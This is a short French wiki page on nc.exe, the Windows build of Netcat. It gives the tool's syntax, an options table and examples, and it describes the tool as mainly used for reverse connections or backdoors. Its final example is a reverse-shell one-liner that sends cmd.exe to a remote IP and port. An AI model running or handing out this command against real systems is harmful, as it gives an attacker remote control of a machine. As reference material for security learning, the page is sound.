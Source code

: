 ```yaml
---
title: nc
description: Nc est la version disponible sur Windows de Netcat, Netcat est un utilitaire permettant d'ouvrir des connexions réseau, cet outil peut être utilisé pour de nombreux usages
published: true
date: 2024-07-12T16:56:06.120Z
tags: outil, windows
editor: markdown
dateCreated: 2024-07-12T16:56:06.120Z
---
```


# Introduction

Nc est la version disponible sur Windows de Netcat, Netcat est un puissant outil permetttant l'écoute de ports ou encore l'ouverture de connexion réseau, cet outil est principalement utilisé pour se connecter à une une connexion inverse ou backdoor, mais il a d'autres nombreux usages.

> Nc est disponible au téléchargement ici: https://github.com/int0x33/nc.exe/
> {.is-info}

# Syntaxe

`nc.exe [ip/port/les deux] [options]`

# Options

| Option          | Description                                                         |
| --------------- | ------------------------------------------------------------------- |
| `-l`            | Mode écoute (listen), attendre une connexion entrante               |
| `-v`            | Mode verbose, affiche des informations supplémentaires              |
| `-p [port]`     | Spécifie un port d'écoute et aussi là où la connexion est transmise |
| `-e [commande]` | Spécifie la commande à éxectuer lorsqu'une transmission est établie |

# Exemples

Écoute sur sur le port 8080

`nc.exe -l -p 8080`

Envoi une connexion vers l'ip 10.10.14.3 sur le port 8443 qui éxecutera "cmd.exe" lors de l'établissement de la connexion

`nc.exe 10.10.14.3 8443 -e cmd.exe`
